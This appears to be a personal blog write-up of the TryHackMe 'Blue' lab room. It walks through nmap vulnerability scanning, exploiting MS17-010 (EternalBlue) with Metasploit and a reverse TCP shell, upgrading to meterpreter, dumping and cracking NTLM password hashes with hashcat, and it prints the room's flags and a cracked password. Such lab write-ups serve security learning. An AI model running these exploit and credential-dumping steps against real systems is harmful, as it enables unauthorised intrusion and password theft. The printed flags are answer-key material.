 ```yaml
---
layout: page
title: Blue
permalink: /Tutorials/TryHackMe/Blue/
---
```


[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
<br/><br/>
<br/><br/>
<br/><br/>
Flags will be **BOLD**
<br/><br/>
<br/><br/>
<br/><br/>
I used this page to help learn more Nmap commands maybe you can to!
<br/><br/>
https://www.stationx.net/nmap-cheat-sheet/
<br/><br/>
Start the machine and the connect using your Open VPN
<br/><br/>
Run "nmap *IP of Active machine*" to scan 1000 common ports
<br/><br/>
<img src="/images/TryHackMe/Blue/Blue-Port Count.PNG">
<br/><br/>
We now have the first Flag!
<br/>
**"3"** is the number of open ports under 1000
<br/><br/>
Now we need to see what the machine is vulnerable to
<br/><br/>
lets run a quick command on those 3 ports
<br/><br/>
"nmap --script vuln -p *IP of Active machine* -v"
<br/><br/>
"--script vuln" will load in scripts to scan on the target IP/Ports
<br/>
"-p 135-445" will scan ports 135-445 with those vulnerability script
<br/>
"-v" increases the verbosity *adds more words* (you can use -vv for a greater effect)
<br/><br/>
<img src="/images/TryHackMe/Blue/Blue-MS17.PNG">
<br/><br/>
Now we have our final flag of task 1!
<br/><br/>
in our command we see **"ms17-010"** it even shows the disclosure date right below the red box
<br/><br/>
<br/><br/>
**TASK 2**
<br/><br/>
We will need to use Metasploit for this portion
<br/><br/>
Lets run "msfdb init" (MetaSploit Framework DataBase Initialize)
<br/><br/>
Now lets run "msfconsole"
<br/><br/>
Once we get our ASCII art we can run the next command
<br/><br/>
"search ms17-010"
<br/><br/>
This will show several options but since weknow we have a Windows machine we can try those first
<br/><br/>
"use 2" will choose the second choice
<br/>
<img src="/images/TryHackMe/Blue/Task 2-2.PNG">
<br/>
**"exploit/windows/smb/ms17_010_eternalblue"** is the answer for the full path of the code
<br/><br/>
Next up "Set RHOSTS *IP of Active machine*"
<br/>
<img src="/images/TryHackMe/Blue/Task 2-3.PNG">
<br/>
**"RHOSTS"** is the answer for the name of the value
<br/><br/>
We will also need to set the LHOSTS to tun0
<br/><br/>
"set LHOST tun0" due to using a vpn
<br/><br/>
"show options" will show all the required areas are now done
<br/><br/>
The room wants us to use "set payload windows/x64/shell/reverse_tcp" before we do the next step
<br/><br/>
all we have to do now is type "run"
<br/><br/>
No we are in! (You may need to press enter) 
<br/><br/>
**TASK 3**
<br/><br/>
Type "whoami" to see if we are now connected as "nt authority\system"
<br/><br/>
place this session in the background with "ctrl+Z"
<br/><br/>
now we need to search for shell_to_meterpreter
<br/><br/>
"search shell_to_meterpreter"
<br/><br/>
We now see the answer to a question!
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 3-1.PNG">
"**post/multi/manage/shell_to_meterpreter**"
<br/><br/>
Now lets use what we found
<br/><br/>
"use post/multi/manage/shell_to_meterpreter"
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 3-2.PNG">
use "show options" and we see we need to change "**Session**"
<br/><br/>
now we need to set our session
<br/><br/>
use "sessions" to find your sessions #
<br/><br/>
"set session *Session #*"
<br/><br/>
once that is done type "sessions" and it should have new information under "Information"
<br/><br/>
type "session *session #*
<br/><br/>
now it should show "meterpreter" on the current line
<br/><br/>
try using "shell" and then "whoami" to see if we are system
<br/><br/>
press "ctrl+z" to get back to meterpreter
<br/><br/>
Now lets look at processes w/ "ps"
<br/><br/>
now we need to try and migrate to one of these processes
<br/><br/>
I used "migrate 2536" to go to svchost.exe but your masy be different
<br/><br/>
**TASK 4**
<br/><br/>
Now we get to play with hashes!
<br/><br/>
"hashdump" will give us 3 hashes
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 4-1.PNG">
"**Jon**" is the answer to 1 question of Task 4
<br/><br/>
if you google "windows password hash format" you will see they are either LM or NTLM
<br/><br/>
Lets try to crack all 3 with hashcat!
<br/><br/>
Lets save them as a document named "Bluehashes.txt"
<br/><br/>
you will need world lists for hashcat. I already had a "rockyou" list so I will use that
<br/><br/>
for hashcat we will use "sudo hashcat -a 0 -m 1000 Bluehashes.txt rockyou.wordlist --force --username --show > Hashed.txt"
<br/><br/>
-a is for the attack mode 0, -m 1000 is for the NTLM hash format, --force is for if you do not have a Intel OpenCL runtime, --username ignores the username, > Hashed.txt names a file with the output
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 4-2.PNG">
<br/>
In that new file at the end of Jons line is "**alqfna22**"
<br/><br/>
**TASK 5**
<br/><br/>
Now we need to find flags
<br/><br/>
"Flag1? This flag can be found at the system root."
<br/><br/>
"ls C:\\ will list the root
<br/><br/>
we now see "flag1.txt"
<br/><br/>
lets cat it!
<br/><br/>
"cat flag1.txt"
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 5-1.PNG">
"**flag{access_the_machine}**"
<br/><br/>
The second flag is where passwords are stored which would be "C:/windows/system32/config"
<br/><br/>
"cd C:/Windows/System32/Config"
<br/><br/>
"dir"
<br/><br/>
Will show us there is a "flag2.txt"
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 5-2.PNG">
<br/>
"**flag{sam_database_elevated_access}**"
<br/>
We now have 2 of the 3 flags!
<br/><br/>
For the final flag we don't have much context so lets search instead
<br/><br/>
"search -f flag*.txt" should work
<br/><br/>
We now see a flag3.txt in Jons documents 
<br/>
<img src="/images/TryHackMe/Blue/Task 5-3.PNG">
<br/>
"**flag{admin_documents_can_be_valuable}**"
<br/><br/>
We have finally succeeded in the room!
<br/><br/>
[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)

